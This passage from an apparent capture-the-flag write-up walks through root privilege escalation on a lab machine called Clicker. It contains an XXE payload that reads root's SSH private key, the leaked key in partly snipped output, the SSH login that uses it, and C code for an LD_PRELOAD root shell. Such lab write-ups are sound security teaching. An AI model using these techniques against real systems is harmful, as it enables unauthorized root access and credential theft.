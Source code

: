     
    
    <?xml version="1.0"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "/root/.ssh/id_rsa">]>
    <file>&ent;</file>
    

The result is:

    
    
    jack@clicker:~$ sudo http_proxy=http://10.10.14.6:8080 /opt/monitor.sh 
    <?xml version="1.0"?>
    <!DOCTYPE replace [
    <!ENTITY ent SYSTEM "/root/.ssh/id_rsa">
    ]>
    <file>-----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAmQBWGDv1n5tAPBu2Q/DsRCIZoPhthS8T+uoYa6CL+gKtJJGok8xC
    ...[snip]...
    UyOYOJc1Mv8zkAAAAMcm9vdEBjbGlja2VyAQIDBAUGBw==
    -----END OPENSSH PRIVATE KEY-----
    </file>
    

With that, I’m able to save it to a file on my host, and SSH in:

    
    
    oxdf@hacky$ vim ~/keys/clicker-root
    oxdf@hacky$ chmod 600 ~/keys/clicker-root
    oxdf@hacky$ ssh -i ~/keys/clicker-root root@clicker.htb
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)
    ...[snip]...
    root@clicker:~# 
    

### Method #3 via LD_PRELOAD

Ippsec actually pointed this one out to me (though I’m embarrassed I missed it
in hindsight). If I can set almost any environment variable, why not
`LD_PRELOAD`? `LD_PRELOAD` is an environment variable that tells all running
programs of a library to load on executing. [This HackTricks
page](https://book.hacktricks.xyz/linux-hardening/privilege-
escalation#ld_preload-and-ld_library_path) has exploit code.

I’ll create a simple C program that unsets the `LD_PRELOAD` variable (to
prevent loops), sets the privileges to root user and group, and runs `bash`:

    
    
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
    }
    